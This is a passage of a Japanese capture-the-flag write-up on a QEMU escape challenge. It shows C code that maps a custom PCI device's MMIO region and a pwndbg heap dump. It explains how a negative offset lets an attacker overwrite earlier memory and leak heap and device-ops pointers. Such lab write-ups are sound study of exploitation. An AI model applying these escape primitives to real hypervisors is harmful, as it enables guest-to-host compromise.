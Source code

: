 ```c
  const char *device_path =
      "/sys/bus/pci/devices/0000:00:04.0/resource0";
  int fd = open(device_path, O_RDWR | O_SYNC);

  mmio_base =
      mmap(NULL, MMIO_REGION_SIZE, PROT_READ | PROT_WRITE, MAP_SHARED, fd, 0);
```

この辺はChatGPTが書いてくれたので楽。

さて、このオフセット、負の値も設定できるため、前の領域を書き換えることができる。その時のヒープを見てみると、

```
pwndbg> tel &ms->buffer -r 30
00:0000│  0x55555b3ef8a0 ◂— 0
01:0008│  0x55555b3ef8a8 ◂— 0
02:0010│  0x55555b3ef8b0 —▸ 0x55555b3eed90 —▸ 0x55555a489240 —▸ 0x55555a2e2140 —▸ 0x55555a2b8fc0 ◂— ...
03:0018│  0x55555b3ef8b8 —▸ 0x55555b3eed90 —▸ 0x55555a489240 —▸ 0x55555a2e2140 —▸ 0x55555a2b8fc0 ◂— ...
04:0020│  0x55555b3ef8c0 —▸ 0x55555627c460 (pci_babydev_mmio_ops) —▸ 0x55555590e430 (pci_babydev_mmio_read) ◂— mov rax, 0xffffffffffffffff
05:0028│  0x55555b3ef8c8 —▸ 0x55555b3eed90 —▸ 0x55555a489240 —▸ 0x55555a2e2140 —▸ 0x55555a2b8fc0 ◂— ...
06:0030│  0x55555b3ef8d0 —▸ 0x55555a5a2cd0 —▸ 0x55555a3df6b0 —▸ 0x55555a336400 —▸ 0x55555a336580 ◂— ...
07:0038│  0x55555b3ef8d8 ◂— 0
08:0040│  0x55555b3ef8e0 ◂— 0x10
09:0048│  0x55555b3ef8e8 ◂— 0
0a:0050│  0x55555b3ef8f0 ◂— 0xfebd2000
0b:0058│  0x55555b3ef8f8 —▸ 0x555555c83ef0 (memory_region_destructor_none) ◂— ret
0c:0060│  0x55555b3ef900 ◂— 0
0d:0068│  0x55555b3ef908 ◂— 0x10001
0e:0070│  0x55555b3ef910 ◂— 0
0f:0078│  0x55555b3ef918 ◂— 0
10:0080│  0x55555b3ef920 ◂— 1
11:0088│  0x55555b3ef928 ◂— 0
12:0090│  0x55555b3ef930 —▸ 0x55555b3ef928 ◂— 0
13:0098│  0x55555b3ef938 —▸ 0x55555b2a3aa0 —▸ 0x55555a3df6b0 —▸ 0x55555a336400 —▸ 0x55555a336580 ◂— ...
14:00a0│  0x55555b3ef940 —▸ 0x55555a5a2d88 —▸ 0x55555b3ef870 —▸ 0x55555a3df6b0 —▸ 0x55555a336400 ◂— ...
15:00a8│  0x55555b3ef948 ◂— 0
16:00b0│  0x55555b3ef950 —▸ 0x55555b3ef948 ◂— 0
17:00b8│  0x55555b3ef958 —▸ 0x55555b3f1b10 ◂— 'baby-mmio'
18:00c0│  0x55555b3ef960 ◂— 0
... ↓     3 skipped
1c:00e0│  0x55555b3ef980 —▸ 0x55555b3f10d0 ◂— 0
1d:00e8│  0x55555b3ef988 ◂— 0
```

と、`0x55555b3ef8c0` にbabydevのread,writeへのポインタが乗っていそうなところがある。それ以外にも、ヒープ自身のアドレスもたくさん乗っており、適当なところからアドレスのリークができる。
